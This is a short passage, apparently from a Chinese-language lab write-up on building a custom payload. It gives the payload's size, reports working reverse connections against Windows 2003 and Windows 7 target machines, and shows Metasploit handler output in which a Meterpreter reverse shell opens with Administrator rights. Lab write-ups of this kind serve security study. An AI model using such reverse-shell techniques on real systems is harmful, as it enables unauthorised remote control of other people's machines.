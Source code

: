 ![](media/a199a5e70d9ace704ba3501be0de41e4.jpg)

**payload大小如下：**  
4096字节  

![](media/7b7ccfb69f47d0f2d8a901f885f2899a.jpg)

**第二次靶机测试：**分别测试Windows 2003，Windws 7，reverse OK。  

![](media/a1daafaffa7abc656d309fb8429cbebf.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 9 opened (192.168.1.5:53 ‐> 192.168.1.119:3891) at 2019‐01‐27 14:46:20 ‐0500

meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 1232 
```
